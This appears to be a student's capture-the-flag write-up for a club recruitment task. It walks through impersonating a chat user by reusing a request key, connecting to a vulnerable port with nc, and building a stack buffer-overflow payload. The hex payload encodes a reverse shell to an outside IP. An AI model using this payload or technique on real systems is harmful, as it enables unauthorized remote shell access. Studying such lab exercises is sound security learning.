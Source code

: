 # Y22 Secy Recruitment **PClub**
## Task 4- **INFOSEC**
***
<br>

We were provided with **IP Address**  `20.120.1.205` We were informed that **Buffer Overflow** Vulnerability was inserted in the code in the **Chat Moderation System** of the computer systems.  
We have to do the following tasks :-
1. Gain access to the Group's REAL Chat Server 
2. Gain access to its shell
<br>

First of all I opened the website using the IP address and saw that there was a chat system first of all and There were two Tabs one for the **Login** and other for the **Contact Admin**. I thought of using **SQL injection** but It didn't work. We thoought then to observe the request and response sent and recieved by the website Using **Burpsuite**. We Typed a message in the burpsuite and sent it. I saw it was sent with a key **13515** I tried this on another computer system but and got the same key. I observed that intially **@jizzy_str** his name appeared in the chatbox then he must have been identified with some another key. From the HTTP Request I got  his key as **13516** . I sent my message with the same key and **Bravo!!** I got
```
"success":"Use command nc 20.169.188.75 5134 in terminal to connect to the vulnerable port of the server"
```
Next I connected to the the port 
```
$ nc 20.169.188.75 5134
```
From here I got into their **CHAT Moderation Firewall** I got the source code from https://bit.ly/anon_script. From here I first downloaded the **Source code**. Then using the link https://bit.ly/anon_setup I downloaded the **exec.sh** file . Then I setted it up to run the test environment on my own system as the host  
```
 $ bash ./exec.sh
 $ nc localhost 5134
 ```
The above commands were used to simulate the environment locally. 
Moreover, I fixed the **syntax error** that was present in the code. I found that **"Report.h"** wasn't a C template Library . It must be running on the REAL server. So I commented it out. I also encounterd the problem in where get() function was not getting compiled cause it was removed from c11 standard due to its vunrebility. so i have to figured that out too. finally i found out givimg additional argument to g++ **-std=c99** in setup.sh made it possible to compile using c99. 

After that i tried to buffer overflow. intially the key had allocated 16 byte.
no matter how many character i typed out i was not able to change value of EIP pointer. Becaue ASLR was on in my system, so i turned it off using code from Google.

next i was able to see that after 24 char anything that i give was written in EIP. to check my theory i made a function inside Script.h. it was simple function to print a string. but i didnt called that function in main. Insted i used a payload and using the address of the function i was able call that function and print it.So it worked.

Now in Real Server by hit and trail i figured out 120 A character crash it
and equivalent array size i figured out was 100. using the server code.

now i desigened the payload to get reverese shell access. but for some reason it was not working.

so logic was this 120byte write till EBP pointer and after that it will be writing on EIP pointer where i put the address of starting of ESP. 
79 byte contain "x90" for no operation , 41 byte contain shell code and the left 6 byte we used for adress of start of Stack pointer.

for genrating the reverse shell code i used online genrator using my ip.

```
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x73\x68\x20\x2D\x69\x20\x3E\x26\x20\x2F\x64\x65\x76\x2F\x74\x63\x70\x2F\x31\x34\x2E\x31\x33\x39\x2E\x33\x38\x2E\x31\x37\x36\x2F\x39\x30\x30\x31\x20\x30\x3E\x26\x31\x80\xdd\xff\xff\xff\x7f
```

the last 6 byte was start of stack pointer so it put it into EIP.

